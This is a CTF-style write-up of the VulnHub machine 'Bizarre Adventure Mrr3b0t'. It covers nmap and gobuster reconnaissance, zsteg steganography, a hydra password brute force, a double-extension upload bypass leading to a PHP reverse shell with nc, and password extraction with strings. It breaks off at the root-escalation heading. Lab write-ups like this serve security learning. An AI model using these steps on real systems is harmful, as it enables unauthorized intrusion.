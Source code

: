 ```yaml
---
title: Vulnhub - Bizarre Adventure Mrr3b0t
description: My writeup on Bizarre Adventure Mrr3b0t box.
categories:
 - vulnhub
tags: vulnhub hydra stego reverse lxd
---
```


![](https://images-na.ssl-images-amazon.com/images/I/71Z2amvT-tL._AC_SL1062_.jpg)

You can find the machine there > [Bizarre Adventure Mrr3b0t](https://www.vulnhub.com/entry/bizarre-adventure-mrr3b0t,561/){:target="_blank"}

## Summary

This box is really similar to Bizarre Adventure Sticky Fingers. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.13
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 01:34 EEST
Nmap scan report for mrr3b0t.zte.com.cn (192.168.1.13)
Host is up (0.00031s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
5355/tcp open  llmnr
MAC Address: 08:00:27:77:A5:67 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.42 seconds
$ nmap -p 22,53,80,5355 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 01:34 EEST
Nmap scan report for mrr3b0t.zte.com.cn (192.168.1.13)
Host is up (0.00042s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:b7:f5:6b:0d:58:1d:7b:58:7d:1a:99:fb:b1:8f:04 (RSA)
|   256 66:b4:4b:40:e6:c9:76:93:31:aa:fc:ff:9a:40:a9:f9 (ECDSA)
|_  256 55:c6:b2:01:0f:16:1c:68:96:e2:bb:b1:fe:ff:59:c2 (ED25519)
53/tcp   open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Eskwela Template
5355/tcp open  llmnr?
```

We can see a static website, let's run `gobuster` on it.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html                
/images (Status: 301)
/index.html (Status: 200)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/fonts (Status: 301)
/administrator (Status: 301)
```

`/administrator` has a login panel, `/images` has a `flag.txt.txt` file in with a message:

```
$ curl http://$ip/images/flag.txt.txt
Almost!

Did you notice something hidden?
```

Hmm, then i noticed that under `/images` there is a `hidden.png` image. Ugh stego stuff! Why!? :disappointed: Anyway i tried the basics like `strings` but nothing. It's `.png` so we can't run `steghide` etc, one option left that is [Zsteg](https://github.com/zed-0xff/zsteg){:target="_blank"}! 

You can install it by:

```
$ gem install zsteg
```

```
$ zsteg -a hidden.png 
b1,r,lsb,xy         .. file: old packed data
b1,rgb,lsb,xy       .. text: "Did you find the message? Take the Mrrobot user and break your password, just don't think too much!"
```

## Shell as www-data

We have a user! `mrrobot` let's fire up hydra! :fire:

```
$ hydra -l mrrobot -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/administrator/index.php:username=mrrobot&pass=^PASS^:Login Failed"

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.1.13:80/administrator/index.php:username=mrrobot&pass=^PASS^:Login Failed
[80][http-post-form] host: 192.168.1.13   login: mrrobot   password: secret
```

We're in as `mrrobot:secret` & we can see an upload form:

![](https://i.imgur.com/Lw6pd9i.png)

If we try to upload a `.php` file we get an error message:

![](https://i.imgur.com/xCGkICy.png)

We can simply bypass that by upload a file like this `shell.jpg.php`, let's upload a php reverse shell and execute it.

```
$ curl http://$ip/administrator/shell.jpg.php
```

```
$ nc -lvp 5555              
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@mrr3b0t:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as exploiter

Here i stuck for a while, was tricky!! Under `/var/www` we can see a `bf` directory, this directory has a 64bit ELF file in:

```
www-data@mrr3b0t:/var/www/bf$ file buffer
buffer: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d870ae3a0c4c68f57dede236b914138be4074732, not stripped
```

Let's do some basic reverse engineering, if we run `strings` we can see the password for user `exploiter`:

```
www-data@mrr3b0t:/var/www/bf$ strings buffer
...data..
 Digite a senha: 
MrR0b0t121
 Senha errada 
 Senha Correta 
Password@123
```

```
www-data@mrr3b0t:/var/www/bf$ su - exploiter
Password: Password@123

exploiter@mrr3b0t:~$ whoami;id 
exploiter
uid=1000(exploiter) gid=1000(exploiter) groups=1000(exploiter),24(cdrom),30(dip),46(plugdev),111(lxd),118(lpadmin),119(sambashare)
```

## Shell as root
